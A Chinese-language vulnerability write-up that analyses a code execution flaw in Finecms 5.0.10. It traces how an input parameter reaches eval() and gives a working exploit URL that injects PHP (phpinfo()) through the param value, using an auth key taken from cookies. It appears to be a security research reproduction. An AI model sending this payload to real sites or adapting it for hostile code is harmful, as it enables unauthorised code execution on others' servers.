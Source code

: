 Finecms 5.0.10 任意代码执行漏洞
===============================

一、漏洞简介
------------

> auth值是由`zero_ci_session`中zero进行md5加密获取到的，无需登陆便有，且每个站点的站长会进行不同的自定义

二、漏洞影响
------------

Finecms 5.0.10

三、复现过程
------------

### 漏洞分析

这个漏洞的文件在`/finecms/dayrui/controllers/Api.php`的data2()

    public function data2() {
            $data = array();

            // 安全码认证
            $auth = $this->input->get('auth', true);
            if ($auth != md5(SYS_KEY)) {
                // 授权认证码不正确
                $data = array('msg' => '授权认证码不正确', 'code' => 0);
            } else {
                // 解析数据
                $cache = '';
                $param = $this->input->get('param');
                if (isset($param['cache']) && $param['cache']) {
                    $cache = md5(dr_array2string($param));
                    $data = $this->get_cache_data($cache);
                }
                if (!$data) {

                    // list数据查询
                    $data = $this->template->list_tag($param);
                    $data['code'] = $data['error'] ? 0 : 1;
                    unset($data['sql'], $data['pages']);

                    // 缓存数据
                    $cache && $this->set_cache_data($cache, $data, $param['cache']);
                }
            }

            // 接收参数
            $format = $this->input->get('format');
            $function = $this->input->get('function');
            if ($function) {
                if (!function_exists($function)) {
                    $data = array('msg' => fc_lang('自定义函数'.$function.'不存在'), 'code' => 0);
                } else {
                    $data = $function($data);
                }
            }

            // 页面输出
            if ($format == 'php') {
                print_r($data);
            } elseif ($format == 'jsonp') {
                // 自定义返回名称
                echo $this->input->get('callback', TRUE).'('.$this->callback_json($data).')';
            } else {
                // 自定义返回名称
                echo $this->callback_json($data);
            }
            exit;

        }

可以看到开头这里验证了认证码：

    // 安全码认证
        $auth = $this->input->get('auth', true);
        if ($auth != md5(SYS_KEY)) {
            // 授权认证码不正确
            $data = array('msg' => '授权认证码不正确', 'code' => 0);
        } else {

授权码在`/config/system.php`

![](./resource/Finecms5.0.10任意代码执行漏洞/media/rId25.png)可以看到SYS\_KEY是固定的，我们可以在Cookies找到，`/finecms/dayrui/config/config.php`

![](./resource/Finecms5.0.10任意代码执行漏洞/media/rId26.png)

用浏览器查看Cookies可以看到KEY，但是验证用MD5，我们先把KEY加密就行了。

![](./resource/Finecms5.0.10任意代码执行漏洞/media/rId27.png)

直接看到这一段，调用了Template对象里面的list\_tag函数

    if (!$data) {

        // list数据查询
        $data = $this->template->list_tag($param);
        $data['code'] = $data['error'] ? 0 : 1;
        unset($data['sql'], $data['pages']);

        // 缓存数据
        $cache && $this->set_cache_data($cache, $data, $param['cache']);
    }

我们到`finecms/dayrui/libraries/Template.php`看list\_tag函数的代码,代码有点长，我抓重点的地方,这里把`param=action=cache%20name=MEMBER.1%27];phpinfo();$a=[%271`的内容分为两个数组\$var、\$val，这两个数组的内容分别为

    $var=['action','name']
    $val=['cache%20','MEMBER.1%27];phpinfo();$a=[%271']

\$cache=\_cache\_var是返回会员的信息 重点的是下面的
`@eval('$data=$cache'.$this->_get_var($_param).';');`

    foreach ($params as $t) {
                $var = substr($t, 0, strpos($t, '='));
                $val = substr($t, strpos($t, '=') + 1);

再看这一段,因为swtich选中的是cache，所有就不再进行下面的分析了。
`$pos = strpos($param['name'], '.');`这句是为下面的substr函数做准备。
是为了分离出的内容为

    $_name='MEMBER'
    $_param="1%27];phpinfo();$a=[%271"
    // action
            switch ($system['action']) {

                case 'cache': // 系统缓存数据
                    if (!isset($param['name'])) {
                        return $this->_return($system['return'], 'name参数不存在');
                    }

                    $pos = strpos($param['name'], '.');
                    if ($pos !== FALSE) {
                        $_name = substr($param['name'], 0, $pos);
                        $_param = substr($param['name'], $pos + 1);
                    } else {
                        $_name = $param['name'];
                        $_param = NULL;
                    }
                    $cache = $this->_cache_var($_name, !$system['site'] ? SITE_ID : $system['site']);
                    if (!$cache) {
                        return $this->_return($system['return'], "缓存({$_name})不存在，请在后台更新缓存");
                    }
                    if ($_param) {
                        $data = array();
                        @eval('$data=$cache'.$this->_get_var($_param).';');
                        if (!$data) {
                            return $this->_return($system['return'], "缓存({$_name})参数不存在!!");
                        }
                    } else {
                        $data = $cache;
                    }

                    return $this->_return($system['return'], $data, '');
                    break;

跟踪get\_var函数，在这里我们先把\$param的内容假设为a,然后执行函数里面的内容，最后返回的\$string的内容是：

    $string=['a']

那么我们的思路就是把两边的\[\' \'\]闭合然后再放上恶意的代码。
payload为：`1'];phpinfo();$a=['1 `那么返回的\$string的内容：

    $string=['1'];phpinfo();$a=['1']

### 漏洞复线

    http://0-sec.org/index.php?c=api&m=data2&auth=目标站点的值&param=action=cache%20name=MEMBER.1%27];phpinfo();$a=[%271

![](./resource/Finecms5.0.10任意代码执行漏洞/media/rId29.png)

